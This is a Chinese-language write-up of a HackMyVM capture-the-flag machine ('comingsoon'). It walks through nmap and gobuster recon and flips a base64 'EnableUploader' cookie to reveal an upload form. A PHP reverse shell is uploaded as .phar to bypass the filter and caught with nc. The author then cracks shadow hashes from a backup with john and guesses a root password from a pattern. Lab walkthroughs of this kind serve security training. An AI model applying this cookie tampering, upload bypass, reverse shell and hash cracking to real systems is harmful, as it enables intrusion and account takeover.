



# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-06 00:36 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0019s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.000068s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.090s latency).
MAC Address: 72:10:25:EC:4F:8C (Unknown)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.069s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00017s latency).
MAC Address: 08:00:27:99:97:03 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (6 hosts up) scanned in 2.46 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.10
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-06 00:37 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.000082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:99:97:03 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.10  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-06 00:37 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
MAC Address: 08:00:27:99:97:03 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.85 seconds
```

# 漏洞利用

80端口


目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.10 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,txt,php,jpg,png,zip,git
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.10
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,jpg,png,zip,git,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 3988]
/.php                 (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://192.168.21.10/assets/]                                              
/license.txt          (Status: 200) [Size: 528]
/notes.txt            (Status: 200) [Size: 279]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
/logitech-quickcam_w0qqcatrefzc5qqfbdz1qqfclz3qqfposz95112qqfromzr14qqfrppz50qqfsclz1qqfsooz1qqfsopz1qqfssz0qqfstypez1qqftrtz1qqftrvz1qqftsz2qqnojsprzyqqpfidz0qqsaatcz1qqsacatzq2d1qqsacqyopzgeqqsacurz0qqsadisz200qqsaslopz1qqsofocuszbsqqsorefinesearchz1.html (Status: 403) [Size: 278]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```

/notes.txt


尝试寻找敏感文件，没找到。
在/index.php下找到一条注释，并且看到cookie不对劲，尝试解密

```markup
┌──(kali㉿kali)-[~]
└─$ curl -v http://192.168.21.10/index.php
*   Trying 192.168.21.10:80...
* Connected to 192.168.21.10 (192.168.21.10) port 80
* using HTTP/1.x
> GET /index.php HTTP/1.1
> Host: 192.168.21.10
> User-Agent: curl/8.13.0-rc2
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Sun, 06 Apr 2025 06:02:54 GMT
< Server: Apache/2.4.51 (Debian)
< Set-Cookie: RW5hYmxlVXBsb2FkZXIK=ZmFsc2UK
< Vary: Accept-Encoding
< Content-Length: 3988
< Content-Type: text/html; charset=UTF-8

<!-- Upload images link if EnableUploader set -->
```



尝试将cooke后面改为dHJ1ZQ==（true）



多出了一个上传按钮


上传一个反弹shell


尝试绕过，成功用phar上传，上传以后会自动跳转到上传位置



反弹成功

```markup
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.21.11] from (UNKNOWN) [192.168.21.9] 44020
Linux comingsoon.hmv 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux
 09:00:25 up 5 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (475): Inappropriate ioctl for device
bash: no job control in this shell
www-data@comingsoon:/$ 
```

# 提权

看一下有什么

```markup
www-data@comingsoon:/$ sudo -l
sudo -l
bash: sudo: command not found
www-data@comingsoon:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/umount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
www-data@comingsoon:/$ /usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
www-data@comingsoon:/$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
scpuser:x:1001:1001::/home/scpuser:/bin/bash
```

在/var/backups下找到一个压缩包

```markup
-rw-r--r--  1 root root 1543836 Apr  6 09:00 backup.tar.gz
```

解压出来两个目录

```markup
www-data@comingsoon:/tmp$ ls -la
ls -la
total 1524
drwxrwxrwt  4 root     root        4096 Apr  6 09:05 .
drwxr-xr-x 18 root     root        4096 Dec 15  2021 ..
-rw-r--r--  1 www-data www-data 1543836 Apr  6 09:03 backup.tar.gz
drwxrwxrwx  2 www-data www-data    4096 Apr  6 09:05 etc
drwxrwxrwx  3 www-data www-data    4096 Apr  6 09:05 var
```

/etc下有passwd和shadow文件，下载下来
合并一下文件，然后爆破

```markup
┌──(kali㉿kali)-[~]
└─$ unshadow passwd shadow > pass
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt pass --format=crypt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tigger           (scpuser)
```

切换到scpuser下

```markup
www-data@comingsoon:/tmp/etc$ su scpuser
su scpuser
Password: tigger
id
uid=1001(scpuser) gid=1001(scpuser) groups=1001(scpuser)
```

user.txt

```markup
cat user.txt
HMV{user:comingsoon.hmv:58842fc1a7}
```

寻找一下有没有可以利用的

```markup
sudo -l
bash: line 8: sudo: command not found
find / -perm -u=s -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/umount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
ls -la
total 32
drwxr-xr-x 4 scpuser scpuser 4096 Dec 17  2021 .
drwxr-xr-x 3 root    root    4096 Dec 16  2021 ..
lrwxrwxrwx 1 root    root       9 Dec 15  2021 .bash_history -> /dev/null
-rw-r--r-- 1 scpuser scpuser  220 Aug  4  2021 .bash_logout
-rw-r--r-- 1 scpuser scpuser 3526 Aug  4  2021 .bashrc
drwxr-xr-x 3 scpuser scpuser 4096 Dec 15  2021 .local
-rw-rw---- 1 scpuser scpuser  123 Dec 16  2021 .oldpasswords
-rw-r--r-- 1 scpuser scpuser  807 Aug  4  2021 .profile
drwx------ 2 scpuser scpuser 4096 Dec 15  2021 .ssh
lrwxrwxrwx 1 root    root      21 Dec 16  2021 user.txt -> /media/flags/user.txt
cat .oldpasswords
Previous root passwords just incase they are needed for a backup\restore

Incredibles2
Paddington2
BigHero6
101Dalmations
```

四个电影名，尝试提权，密码都不对，看大佬说密码是带有数字的动画电影名字

```markup
ToyStory4
ToyStory3
ToyStory2
HowtoTrainYourDragon2
TheLEGOMovie2TheSecondPart
Shrek2
```

尝试提权

```markup
su root
Password: ToyStory3
id
uid=0(root) gid=0(root) groups=0(root)
```

root.txt

```markup
cat root.txt
HMV{root:comingsoon.hmv:2339dc81ca}
```
